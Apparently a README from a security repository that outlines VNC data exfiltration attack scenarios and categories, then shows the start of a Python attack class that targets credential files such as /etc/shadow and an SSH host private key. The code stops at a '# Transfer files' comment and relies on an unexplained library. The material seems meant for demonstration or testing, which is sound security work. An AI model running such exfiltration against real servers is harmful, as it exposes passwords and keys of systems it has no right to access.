 # VNC Data Exfiltration Attack Scenarios

This directory contains comprehensive attack scenarios demonstrating various data exfiltration techniques through VNC servers.

## Attack Categories

### File Transfer Exfiltration
- `file-transfer-attacks/` - File transfer through VNC
- `clipboard-exfiltration/` - Clipboard data exfiltration
- `screen-capture-attacks/` - Screen capture and data extraction

### Session-based Attacks
- `session-hijacking/` - VNC session hijacking techniques
- `session-persistence/` - Maintaining persistent access
- `privilege-escalation/` - Escalating privileges through VNC

### Network-based Attacks
- `traffic-analysis/` - Network traffic analysis attacks
- `protocol-exploitation/` - VNC protocol exploitation
- `encryption-bypass/` - Bypassing VNC encryption

## Attack Scenarios

### Scenario 1: File Transfer Exfiltration
```python
#!/usr/bin/env python3
"""
File Transfer Exfiltration Attack Scenario
Demonstrates how attackers can transfer files through VNC
"""

import vnc_lib
import os
import time
import logging

class FileTransferExfiltration:
    def __init__(self, target_host, target_port=5900):
        self.target_host = target_host
        self.target_port = target_port
        self.vnc_client = vnc_lib.VNCClient()
        
    def execute_attack(self):
        """Execute file transfer exfiltration attack"""
        logging.info("Starting file transfer exfiltration attack")
        
        # Connect to VNC server
        self.vnc_client.connect(self.target_host, self.target_port)
        
        # Target files for exfiltration
        target_files = [
            "/etc/passwd",
            "/etc/shadow",
            "/home/user/documents/",
            "/var/log/auth.log",
            "/etc/ssh/ssh_host_rsa_key"
        ]
        
        # Transfer files
```